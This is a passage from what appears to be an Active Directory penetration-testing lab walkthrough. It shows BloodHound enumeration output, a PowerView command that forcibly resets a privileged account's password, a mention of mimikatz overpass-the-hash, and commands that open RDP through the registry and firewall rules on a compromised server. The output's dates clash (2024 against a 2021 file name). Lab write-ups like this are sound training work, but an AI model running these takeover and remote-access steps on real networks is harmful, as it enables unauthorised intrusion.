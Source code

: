 ```powershell
PS C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors> [!] Cache File Found! Loaded 119 Objects in cache
SharpHound Enumeration Completed at 10:49 PM on 7/3/2024! Happy Graphing!

[+] Pre-populating Domain Controller SIDS
Status: 0 objects finished (+0) -- Using 104 MB RAM
Status: 5 objects finished (+5 ∞)/s -- Using 105 MB RAM
Enumeration finished in 00:00:00.1406833
Compressing data to C:\ad\tools\BloodHound-master\BloodHound-master\Ingestors\20210703224919_BloodHound.zip
You can upload this file directly to the UI

SharpHound Enumeration Completed at 10:49 PM on 7/3/2024! Happy Graphing!
```

the `All` collection method would gather comprehensive data about the domain, while the `LoggedOn` method focuses on currently active sessions. 

# target 2: `Uatsrv.Nebula.Cosmos.Local` - leveraging password resets

this machine represents a typical UAT server in an enterprise environment. UAT servers are used to test apps in an environment that closely mimic production, allowing users to verify that the software meets requirements before going live.

these servers often have looser security controls (compared to production systems). the challenge here is to exploit the delicate balance between functionality + security that UAT environments often struggle with.

it's clear that UAT servers are critical in the SDLC, but they're often overlooked from a security perspective. they may have elevated privileges to simulate various user roles, and their configurations might be less stringent to facilitate testing. this makes them valuable stepping stones for an attacker moving through a network.

earlier, running BloodHound revealed that the `bilal` user could force a password change for the `UATADMIN` user. let's exploit this using PowerView.

```powershell
PS C:\ad\tools> Set-DomainUserPassword -Identity UATADMIN -Verbose
cmdlet Set-DomainUserPassword at command pipeline position 1
Supply values for the following parameters:
AccountPassword: ********
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'UATADMIN'
VERBOSE: [Set-DomainUserPassword] Password for user 'UATADMIN' successfully reset
```

this PowerView command allows me to forcibly change the password of another user's account. usually, this ability rests with IT for support purposes but can be a significant risk if not properly controlled. by changing the password, i can gain access to a more privileged account.

using mimikatz, i can perform an overpass-the-hash attack. this is when an attacker isn't able to access the cleartext password of a target, but can acquire a Kerberos ticket armed with just the NTLM hash of the password.


[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> whoami;hostname nebula\uatadmin
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name "fDenyTSConnections" -Value 0
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Enable-NetFirewallRule -DisplayGroup "Remote Desktop"
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow 
[uatsrv.nebula.cosmos.local]: PS C:\Users\uatadmin\Documents> Test-NetConnection 172.16.10.1 -CommonTCPPort rdp